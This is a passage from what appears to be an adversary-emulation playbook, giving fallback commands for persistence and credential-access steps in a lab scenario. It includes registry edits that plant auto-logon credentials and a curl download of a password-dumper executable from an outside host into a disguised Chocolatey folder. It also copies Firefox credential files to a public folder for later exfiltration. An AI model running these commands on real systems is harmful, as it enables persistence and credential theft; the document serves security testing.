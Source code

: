 ## Step 3 - Persistence

### Unable to Modify the Registry via GUI

* Using the elevated Command Prompt, execute the following to modify the
registry:

  ```cmd
  reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_SZ /d 1 /f
  reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /t REG_SZ /d "gornuk" /f
  reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /t REG_SZ /d "Concave-Monsieur" /f
  reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /t REG_SZ /d "decryptmalfoy" /f
  ```

## Step 4 - Credential Access

### No Choco Available or Unable to Download FireFox Password Dumper

#### :biohazard: Tier 1 Procedures

* Using the elevated Command Prompt in the VNC or RDP session to
`quirrell (10.111.9.202)`, execute the following command to download the FireFox
password dumper:

  ```cmd
  md C:\ProgramData\chocolatey\lib\FoxAdminPro\tools\
  curl http://1nvisibility-cl0ak.net/files/FoxAdminPro.exe -o C:\ProgramData\chocolatey\lib\FoxAdminPro\tools\FoxAdminPro.exe
  ```

* Return to scenario execution of the FireFox password dumper

### FireFox Password Dumper Fails to Dump Passwords

#### :biohazard: Tier 1 Procedures

* Using the elevated Command Prompt in the VNC or RDP session to
`quirrell (10.111.9.202)`, execute the following command to stage the FireFox
data for later exfiltration

  ```cmd
  copy C:\Users\gornuk\AppData\Roaming\Mozilla\Firefox\Profiles\ohbrdd1o.default-release\key4.db C:\users\public
  copy C:\Users\gornuk\AppData\Roaming\Mozilla\Firefox\Profiles\ohbrdd1o.default-release\logins.json C:\users\public
  ```

## Step 5 - Lateral Movement to Linux Server
